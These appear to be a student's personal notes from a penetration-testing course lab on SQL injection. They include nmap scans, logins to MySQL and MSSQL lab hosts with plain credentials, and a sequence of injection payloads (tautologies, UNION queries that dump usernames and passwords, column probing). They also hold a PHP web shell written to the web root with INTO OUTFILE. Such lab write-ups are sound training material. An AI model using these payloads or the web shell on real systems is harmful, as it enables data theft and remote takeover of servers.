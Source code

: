 [SQLMap - Cheetsheat - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)
[MySQL injection - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection)
## SQL DB TYPES AND THEORY
MySQL and Microsoft SQL Server (MSSQL) most common
Identify the port using NMAP

### MYSQL
sudo nmap -T5 --top-ports=500 -sS 192.168.238.16

Nmap scan report for 192.168.238.16
Host is up (0.045s latency).
Not shown: 496 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
3306/tcp open  mysql              ----HERE IS THE PORT #
8000/tcp open  http-alt
8080/tcp open  http-proxy

After seeing the port, go to mysql if username/password provided

$ mysql -u root **-p'root'** -h 192.168.238.16 -P 3306
**(-p = Password)  (-P= Port)**

MySQL [(none)]> 

SIMPLE VERSION/SYSTEM AND DATABASE INFO
-MySQL [(none)]> select version ();
+------------+
| version () |
+------------+
| 8.0.21     |
+------------+
-MySQL [(none)]> select system_user();
+---------------------+
| system_user()       |
+---------------------+
| root@192.168.45.181 |
+---------------------+
-MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| test               |
+--------------------+

Sample of using finding an authentication string from an user
![[Pasted image 20230930080712.png]]

### MSSQL 
Impacket
Run Nmap to identify the service
┌──(hollacosta㉿kali1)-[~]
└─$ sudo nmap -T5 --top-ports=500 -sS 192.168.238.18                      
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
**1433/tcp open  ms-sql-s**    -------HERE IS MSSQL
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

└─$ impacket-mssqlclient Administrator:Lab123@192.168.238.18 -windows-auth
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation


Encryption required, switching to TLS
 ENVCHANGE(DATABASE): Old Value: master, New Value: master
 ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
 INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
ACK: Result: 1 - Microsoft SQL Server (150 7208) 
 Press help for extra shell commands
SQL> 

SQL> SELECT @@version;
Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
        Sep 24 2019 13:48:23 
        Copyright (C) 2019 Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2022 Standard 10.0 Build 20348: ) (Hypervisor)

SQL> SELECT name FROM sys.databases; -SHOWS DBS
name                                                                                         
master                                                                                       
tempdb                                                                                      
model                                                                                                
SQL> select * from offsec.dbo.users;    ---INFO ABOUT DB
username     password     

admin        lab          

guest        guest      

## SQL INJECTION ATTACKS
If you can use a ' at the end and receive a response, you can interact with the database
![[Pasted image 20230930093732.png]]

after finding the ' gets a response, you can use a cmd like this to find more information to interact further with it

offsec' OR 1=1 == //

![[Pasted image 20231001051716.png]]
' or 1=1 in **(select @@version)** -- //   -----**This is where the query goes!**

using a specific criteria will most likely provide you with the desired result
```
' or 1=1 in (SELECT password FROM users) -- //
```

![[Pasted image 20231001053044.png]]

being more specific would give you the information you desire (e.g. admin password)
```
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
![[Pasted image 20231001053200.png]]


### UNION BASE SQL ATTACKS
some databases could be attacked using UNION SQL queries; The **UNION**[1](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/sql-injection-attacks/manual-sql-exploitation/union-based-payloads#fn1) keyword aids exploitation because it enables execution of an extra SELECT statement and provides the results in the same query, thus concatenating two queries into one statement. use this to see all the info for the users in the database

```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

![[Pasted image 20231001054044.png]]

this could be use to determine the exact columns (if you get an error, you know you have exceeded the amount)
![[Pasted image 20231001054147.png]]

Use this command to enumerate the database. **use the % sign to retrieve ALL the information from the DB**
```
%' UNION SELECT database(), user(), @@version, null, null -- //
```

![[Pasted image 20231001054233.png]]

this cmd will give you an exact query info about the user (**no % use in this query since we know the specific info we are looking for**)
```
' UNION SELECT null, null, database(), user(), @@version  -- //
```
![[Pasted image 20231001054619.png]]

with this  cmd, we are attempting to enumerate the db
```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
![[Pasted image 20231001054924.png]]
with the next command, we are attempting to dump the user name, password and description
```
' UNION SELECT null, username, password, description, null FROM users -- //
```
![[Pasted image 20231001055033.png]]

### BLIND SQL INJECTIONS

### EXERCISES

#### Q5

```
' ORDER BY 1-- //
```
To identify columns.
![[Pasted image 20231004201438.png]]
![[Pasted image 20231004202641.png]]
![[Pasted image 20231004203231.png]]


<?php system($_GET['cmd']); ?>

' UNION SELECT null, null, null, null, "<?php system($_GET['cmd']);?>", null INTO OUTFILE "/var/www/html/webshell.php" -- //

![[Pasted image 20231004214100.png]]
### Q6
First identify which port is open

![[Pasted image 20231005200443.png]]
![[Pasted image 20231005200459.png]]

![[Pasted image 20231005200620.png]]
try every field available for injection, and if it doen't work, try every field in it using burp

![[Pasted image 20231005200358.png]]

![[Pasted image 20231005201451.png]]
no errors in **'ORDER%20BY%206--//**
